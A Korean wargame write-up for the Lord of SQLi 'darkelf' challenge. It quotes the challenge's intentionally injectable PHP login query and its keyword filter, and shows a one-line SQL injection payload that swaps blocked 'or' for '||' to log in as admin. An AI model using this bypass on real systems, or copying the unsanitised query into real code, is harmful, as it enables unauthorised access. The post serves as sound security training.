 ```yaml
---
layout: post
title: "LoS darkelf"
author: "isanghyeon"
tags: wargame
---
```


|문제 명|풀이 여부|URL|
|:------:|:---:|:-----:|
| **darkelf** | <span style="color:red">O</span> | https://los.rubiya.kr/chall/darkelf_c6a5ed64c4f6a7a5595c24977376136b.php |

<hr/><br>

### Challenge Source Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

<br>

### Analysis Source Code
- #### preg_match function for $_GET[pw]
> ```php 
> preg_match('/prob|_|\.|\(\)/i', $_GET[pw])
> ```
> ```php
> preg_match('/or|and/i', $_GET[pw])
> ```
- #### Solve Conditions
> ```php
> if($result['id'] == 'admin') solve("darkelf"); 
> ```

|query|parms1|params2|
|:--:|:--:|:--:|
|select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'|id='guest'|pw='{$_GET[pw]}'|

```$_GET[pw]```의 값에 대해 ``` '/or/and/i'```를 필터링하고 있다.  
따라서 MySQL에서 지원하는 or, and 와 같은 역할을 하는 '||', '&&'로 변경하여 query를 작성할 수 있다.  

```sql
select id from prob_darkelf where id='guest' and pw='nop' || id='admin'#'
```

<hr/>
<br>

### Exploit Source Code
|작성 언어|Exploit Link|How to Exploit|
|:------:|:---:|:--:|
| **Python3.8** | https://github.com/isanghyeon/LordofSQLi-Solved-Exploit/tree/master/darkelf | Operator bypass |